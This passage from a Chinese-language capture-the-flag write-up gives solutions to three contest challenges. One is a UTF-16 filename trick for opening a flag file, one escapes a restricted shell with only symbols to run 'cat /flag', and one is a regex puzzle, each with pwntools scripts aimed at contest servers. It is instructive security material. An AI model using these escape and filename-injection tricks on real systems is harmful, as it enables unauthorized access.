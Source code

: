 这样肯定不工作啊，因为你把宽字符串的数据当作窄字符串来使用了。本地随机测试一下就会发现，如果输入 `a`，那么就会正常打开 `a` 文件，因为输入变成宽字符串之后加上右面的内容，再当作窄字符串使用的话，开头两个字符就是 `a` 和 `\0`，自然就会打开 `a` 文件。想必小 A 随便找的文件名就是单个字母吧。

这样我们只需要让输入的文件名转为 UTF-16 之后再转为字节时开头是 `Z:\theflag` 后面跟一个 `\0` 就好。要做到这一点，我们只需要把每两个字节的数据塞进一个 UTF-16 字符，再把结果转换为 UTF-8 编码就好。代码如下：

```py
import pwn

token=b"<token>"

conn = pwn.remote('202.38.93.141',14202)
conn.send(token)
conn.send(b"\n")

conn.recvuntil(b"it:")
conn.recvuntil(b"\n")
data=b"Z:\\theflag\0!"
filename="".join(chr(data[2*i]+256*data[2*i+1]) for i in range(len(data)//2)) # 二合一编码

conn.send(filename.encode())
conn.interactive()
```

## PowerfulShell

先来研究一下还有什么符号可以用，结果是:

```
~`$-_=+[]{}|:
123456789
```

那么用这些符号可以做些什么呢？首先我们可以定义任意多的变量，因为可以用 `_` 制造变量名，并用 `=` 定义内容。其次我们可以用 `~` 获得家目录路径，并用 `$-` 获得 Shell 的选项。而这两个字符串分别是 `/Players` 和 `hB`，而取子字符串的语法 `${__:1:2}` 刚好也可以用，所以我们就可以从这两个字符串里提取出 `sh`，从而逃逸到真正的 shell 里。具体命令如下：

```bash
__=~
__=$__$-
${__:7:2}
```

之后就可以直接使用 `cat /flag` 获取 flag 了。

## 强大的正则表达式 - Easy

众所周知，十进制整数能被 16 整除等效于结尾四位可以被 16 整除，所以我们只需要匹配结尾四位就好。代码如下：

```py
import pwn

token=b"<token>"

conn = pwn.remote('202.38.93.141',30303)
conn.send(token)
conn.send(b"\n")

conn.recvuntil(b"(1~3): ")
conn.send(b"1\n")
conn.recvuntil(b"regex: ")

regex="(0|1|2|3|4|5|6|7|8|9)*("+"|".join(str(i).zfill(4) for i in range(0,10000,16))+")"
conn.send(regex.encode())
conn.send(b"\n")
conn.interactive()
```
